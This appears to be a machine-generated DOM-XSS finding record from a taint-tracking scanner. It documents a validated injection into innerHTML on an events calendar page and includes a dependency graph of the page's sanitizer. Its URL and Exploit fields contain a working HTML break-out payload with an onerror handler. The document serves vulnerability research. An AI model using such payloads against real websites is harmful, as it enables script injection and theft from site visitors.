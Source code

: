 // Finding: 517cd076-dfd5-4f50-8098-5e8893c434f3
// Finding.url: https://www.example90.com/events/#!view/event/event_id/270586##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('71a7c121dece4432a60134e82f920a7e')><!--/*
// Finding.parentloc: https://www.example90.com/events/#!view/event/event_id/270586##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('71a7c121dece4432a60134e82f920a7e')><!--/*
// Finding.domain: www.example90.com
// Finding.base_domain: example90.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 5
// Sanitizer.name: sanitizeVar
// Sanitizer.location: https://lwcal.example90.com/live/resource/js/%5Clivewhale%5Cthirdparty%5Cjquery%5Cjquery.browser.js/%5Clivewhale%5Cthirdparty%5Cjquery%5Cjquery.fitvids.js/%5Clivewhale%5Cthirdparty%5Cjqueryui%5Cjquery-ui.widget.js/%5Clivewhale%5Cthirdparty%5Cimagesloaded.js/%5Clivewhale%5Cscripts%5Clwui%5Cjquery.lw-overlay.js/%5Clivewhale%5Cscripts%5Clwui%5Cjquery.lw-slideshow.js/%5Clivewhale%5Cscripts%5Clwui%5Cjquery.lw-hoverbox.js/%5Clivewhale%5Cscripts%5Ccommon.js/%5Clivewhale%5Ctheme%5Ccore%5Cscripts%5Cfrontend.js/%5Clivewhale%5Cthirdparty%5Clodash.min.js/%5Clivewhale%5Cplugins%5Cjquery%5Cjquery.lwGoogleMapsEmbed.js/%5Clivewhale%5Cthirdparty%5Cjquery%5Cjquery.hashchange.min.js/%5Clivewhale%5Ctheme%5Ccore%5Cscripts%5Cpayments.js/%5Clivewhale%5Ctheme%5Ccore%5Cscripts%5Ccalendar.js/%5C_ingredients%5Cthemes%5Ccalendar-bootstrap%5Cscripts%5Ccalendar-custom.js?cache=300 - sanitizeVar:67:11046
// Finding.begin: 1283
// Finding.end: 1289
// Finding.original_uuid: 6483d5da-04ad-44df-a857-81ec32d6b39a
// Finding.TwentyFiveMillionFlowsId: -1164432020
// Finding.script: https://www.example90.com/assets/public/scu.js
// Finding.line: 10704
// Exploit.uuid: 71a7c121-dece-4432-a601-34e82f920a7e
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: t
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 20
// Exploit.end_taint_url: 25
// Exploit.replace_begin_url: 55
// Exploit.replace_end_url: 55
// Exploit.replace_begin_param: 8
// Exploit.replace_end_param: 8
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -12712296
// DepGraph.sanitizer_hash: -1548315157

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: #"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="str_replace_once"];
n5 [shape=box, label="RegExp: /^!/"];
n6 [shape=box, label="Lit: "];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="split"];
n9 [shape=box, label="Lit: /"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="decodeURIComponent"];
n12 [shape=box, label="Var: x"];
n13 [shape=ellipse, label="preg_replace"];
n14 [shape=box, label="RegExp: /[<]/"];
n15 [shape=box, label="Lit: &lt;"];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="preg_replace"];
n18 [shape=box, label="RegExp: /[>]/"];
n19 [shape=box, label="Lit: &gt;"];
n20 [shape=box, label="Var: x"];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit: <p>"];
n23 [shape=ellipse, label="."];
n24 [shape=box, label="Lit: </p>"];
n25 [shape=ellipse, label="preg_replace"];
n26 [shape=box, label="RegExp: /<(?!area|br|col|embed|hr|img|input|link|meta|param)(([a-z][^\/\0>\x20\t\r\n\f]*)[^>]*)\/>/"];
n27 [shape=box, label="Lit: <$1></$2>"];
n28 [shape=box, label="Var: x"];
n29 [shape=ellipse, label="preg_replace"];
n30 [shape=box, label="RegExp: /[>]/"];
n31 [shape=box, label="Lit: &gt;"];
n32 [shape=box, label="Var: x"];
n33 [shape=ellipse, label="preg_replace"];
n34 [shape=box, label="RegExp: /[<]/"];
n35 [shape=box, label="Lit: &lt;"];
n36 [shape=box, label="Var: x"];
n37 [shape=ellipse, label="preg_replace"];
n38 [shape=box, label="RegExp: /^[\s\uFEFF\xA0]+|[\s\uFEFF\xA0]+$/"];
n39 [shape=box, label="Lit: "];
n40 [shape=box, label="Var: x"];
n41 [shape=box, label="Var: x"];
n42 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n7 -> n1;
n4 -> n5;
n4 -> n6;
n4 -> n7;
n10 -> n4;
n8 -> n9;
n8 -> n10;
n12 -> n8;
n11 -> n12;
n16 -> n11;
n13 -> n14;
n13 -> n15;
n13 -> n16;
n20 -> n13;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n21 -> n22;
n21 -> n17;
n23 -> n21;
n23 -> n24;
n28 -> n23;
n25 -> n26;
n25 -> n27;
n25 -> n28;
n32 -> n25;
n29 -> n30;
n29 -> n31;
n29 -> n32;
n36 -> n29;
n33 -> n34;
n33 -> n35;
n33 -> n36;
n40 -> n33;
n37 -> n38;
n37 -> n39;
n37 -> n40;
n41 -> n37;
n42 -> n41;
}